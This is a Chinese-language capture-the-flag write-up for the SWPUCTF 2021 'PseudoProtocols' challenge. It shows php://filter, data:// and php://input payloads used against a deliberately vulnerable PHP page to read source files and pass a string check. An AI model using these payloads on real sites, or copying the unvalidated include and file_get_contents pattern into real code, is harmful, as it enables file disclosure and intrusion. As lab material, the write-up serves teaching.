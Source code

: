 # [SWPUCTF 2021 新生赛]PseudoProtocols


# [SWPUCTF 2021 新生赛]PseudoProtocols

![[SWPUCTF 2021 新生赛]PseudoProtocols-1](https://pic.imgdb.cn/item/653bca2dc458853aeff4a414.jpg)

根据提示包含一下 hint.php ，执行了 hint.php 但没有显示

![[SWPUCTF 2021 新生赛]PseudoProtocols-2](https://pic.imgdb.cn/item/653bcabcc458853aeff7759a.jpg)

利用 php://filter 将 hint.php 的内容以 base64 的编码显示

payload：`?wllm=php://filter/convert.base64-encode/resource=hint.php`

![[SWPUCTF 2021 新生赛]PseudoProtocols-3](https://pic.imgdb.cn/item/653bcb8bc458853aeffb96f9.jpg)

解密后得到线索 test2222222222222.php

![[SWPUCTF 2021 新生赛]PseudoProtocols-4](https://pic.imgdb.cn/item/653bcbcdc458853aeffce11f.jpg)

访问 test2222222222222.php

![[SWPUCTF 2021 新生赛]PseudoProtocols-5](https://pic.imgdb.cn/item/653bcc10c458853aeffe1ed8.jpg)

```php
<?php
// 设置脚本的最大执行时间为180秒
ini_set("max_execution_time", "180");
// 显示当前脚本文件的源代码
show_source(__FILE__);
include('flag.php');

// 从GET请求参数中获取名为 "a" 的值
$a = $_GET["a"];

// 检查是否设置了变量 $a 并且文件内容是否等于 'I want flag'
if (isset($a) && (file_get_contents($a, 'r')) === 'I want flag') {
    echo "success\n";
    echo $flag;
}
?>
```

**解法一：**

payload：`?a=data://text/plain;base64,SSB3YW50IGZsYWc=`

SSB3YW50IGZsYWc= 是 "I want flag" 的 base64 编码形式

当脚本执行到 file_get_contents($a, 'r') 时，它会解析 data://text/plain;base64,SSB3YW50IGZsYWc= ，读取base64编码的字符串，并将其与 "I want flag" 进行比较。

![[SWPUCTF 2021 新生赛]PseudoProtocols-6](https://pic.imgdb.cn/item/653bd0dac458853aef1c4a7e.jpg)

> Q：为什么要先把 "I want flag" 进行 base64 编码？
>
> A：服务器过滤 flag 

**解法二：**

利用 php://input ，通过 post 传入 "I want flag"，可借助 Burpsuite 来完成

![[SWPUCTF 2021 新生赛]PseudoProtocols-7](https://pic.imgdb.cn/item/653bd254c458853aef28ea3d.jpg)

> 理论上也可以 hackbar 插件，但在这里有 bug 未能成功
